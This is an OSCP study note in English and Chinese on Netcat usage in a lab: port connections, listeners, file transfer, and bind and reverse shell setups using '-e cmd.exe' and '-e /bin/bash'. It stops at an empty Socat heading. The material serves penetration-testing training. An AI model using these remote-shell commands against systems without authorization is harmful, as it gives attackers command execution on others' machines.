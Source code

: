```yaml
---
title: 'OSCP Note_ PRACTICAL TOOLS'
disqus: hackmd
---
```


OSCP Note_ PRACTICAL TOOLS
===

# PRACTICAL TOOLS
We often find ourselves in situations where the only tools available are those already installed on the target machine.

## Netcat
Netcat is one of the original penetration testing tools. Netcat reads and writes data across network connections using TCP or UDP protocols.

### – Connecting To a TCP/UDP Port
```
nc -n -v {Destination IP} {Destination port}
```
>-n： skip DNS name resolution\
>-v：詳細模式（verbose）輸出，顯示詳細的連接過程和調試訊息。

```
┌──(frankchang㉿CHW-Macbook)-[~]
└─$ nc -n -v 10.11.0.22 110
(UNKNOWN) [10.11.0.22] 110 (pop3) open
+OK POP3 server ready
```
> （110 port 通常用於 POP3 電子郵件協議）\
> 上面回應表示 Netcat 成功連接到目標 IP 地址 10.11.0.22 的 110 端口，並顯示了 POP3 服務器的歡迎訊息

**Try to interact with the server by attempting to authenticate as the Offsec user**

![image](https://hackmd.io/_uploads/rkfkLqLIR.png)

### – Listening On a TCP/UDP Port

```
rdesktop {Windows IP} -u {Windows User} -p {Windows password} -g 1024x768 -x 0x80
```
> -g 1024x768: RDP解析度為 1024x768 像素\
> -x 0x80: 指定RDP的體驗設置，0x80 代表低頻寬連接，會禁用一些高頻寬需求的功能以提高連接效率。

![image](https://hackmd.io/_uploads/r1IZJiU8R.png)

#### (In Windows RDP)
![image](https://hackmd.io/_uploads/r1cmmj8UR.png)
> 在 Windows 遠端桌面開4444 port
```
nc -nvlp {port}
```
>-n： skip DNS name resolution\
>-v：詳細模式（verbose）輸出，顯示詳細的連接過程和調試訊息\
>-l：進入「監聽」模式，等待傳入的連接\
> -p 4444：指定 Netcat 監聽的local port 為 4444

#### 1. Kali terminal send request
![image](https://hackmd.io/_uploads/ByPF4iIUR.png)
#### 2. Windows RDP
![image](https://hackmd.io/_uploads/HJda4iULA.png)

>[!Note]
> It's a important feature in netcat

### – Transferring Files with Netcat
Netcat can also be used to transfer files both text and binary.
#### (In Windows RDP)
```
nc -nvlp {port} > {exe name}.exe    #監聽
```
![image](https://hackmd.io/_uploads/BkFRFjLU0.png)

#### (In Kali terminal)
```
nc -nv {port} < {Transferred File's path}    #傳送檔案
```
![image](https://hackmd.io/_uploads/SkhLqs8U0.png)

#### (Back to Windows)
> Give the file enough time to transfer
```
{exe name}.exe -V
```
![image](https://hackmd.io/_uploads/rkviooUUC.png)
> change to **wget.exe** from Kali

### – Remote Administration with Netcat
```
man nc
```
#### (1) Netcat Bind Shell Scenario
![image](https://hackmd.io/_uploads/SJZeM3UUR.png)
![image](https://hackmd.io/_uploads/H1kbG28IA.png)
> Bob is running Windows\
> And Alice is running is running Linux.

![image](https://hackmd.io/_uploads/B1CQl6LIC.png)
> Bob needs his system and asked Alice to connect to his computer and issue some commands remotely.

##### (Bob: Windows)
IP: 10.11.0.22
```
nc -nvlp 4444 -e cmd.exe
```
> -e cmd.exe: 在連接建立後，執行 cmd.exe，這是 Windows 的命令行解釋

![image](https://hackmd.io/_uploads/HkXT76I8C.png)

##### (Alice: Kali)
```
nc -nv 10.11.0.22 4444
```
![image](https://hackmd.io/_uploads/r1FBE6UIA.png)
> 成功執行 Bob 的 cmd.exe (Kali 遠端執行 Windows 指令)

![image](https://hackmd.io/_uploads/SJ8K4aUU0.png)
> ipconfig 顯示 Bob 的IP

#### (2) Reverse Shell Scenario
Alice needs help from Bob.
![image](https://hackmd.io/_uploads/rk2BqA8LA.png)
> Alice 在內網\
> We can send control of Alice's command prompt to Bob.\
> (Reverse Shell)
##### (Bob: Windows) > Listen
IP: 10.11.0.22
```
nc -nvlp 4444 
```
![image](https://hackmd.io/_uploads/Hy1oj0LUA.png)
> Listen port 4444 for incoming shell

##### (Alice: Kali) > Send
Send reverse shell to Bob
```
nc -nv {Destination IP} {Destination port} -e /bin/bash
```
![image](https://hackmd.io/_uploads/HyUHn0UIR.png)
> -e /bin/bash: 在連接建立後，執行 /bin/bash，這是 Linux 的命令行解釋

##### Back to (Bob: Windows)
![image](https://hackmd.io/_uploads/rkfz6CL8C.png)
> 成功在 Windows 上遠端執行 Kali command

## Socat

